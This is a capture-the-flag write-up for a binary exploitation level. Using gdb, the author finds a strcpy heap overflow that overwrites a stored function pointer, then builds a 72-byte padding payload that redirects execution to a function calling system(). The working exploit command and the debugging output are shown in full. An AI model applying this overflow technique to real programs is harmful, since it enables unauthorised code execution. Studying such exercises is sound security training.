 # Level 6


## Testing the program 

```bash
$ ./level6 
Segmentation fault (core dumped)

$ ./level6 test
Nope
```

We have an executable which segfaults if not given an argument, and if given one displays 'Nope'.
We can assume here is some type of check done. 


## Finding out more

```bash
(gdb) info functions
All defined functions:
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) 
```

We have three functions, let's see which one is called. 

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) 
```
Even though it is not explicit m is called. Let's see how :

```bash
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax) --> STORES 0x8048468 INTO *eax
```

0x8048468 is moved into a register (%edx) and then stored into memory at a pointer returned from malloc.

That address 0x8048468 is later indirectly called via call *%eax.

If we go back to our info functions we see that 0x08048468 correspond to the address of the m() function.


Let's look at the n() function :

```bash
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
```
We see that n calls system(), so our goal is going to be to use the function m so that it calls n().


## Gettingn acces to the pass

In the main we see that there is a call to strcpy, let's find the offset to do a buffer overflow.

```bash
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) 
```
0x41346341 --> Offset of 72
The offset is 72, so our final payload will be : Offset + n() address 
"B"*72  + "\x54\x84\x04\x08"


```bash
$ ./level6 $(python -c 'print "B"*72+"\x54\x84\x04\x08"')
***************************
```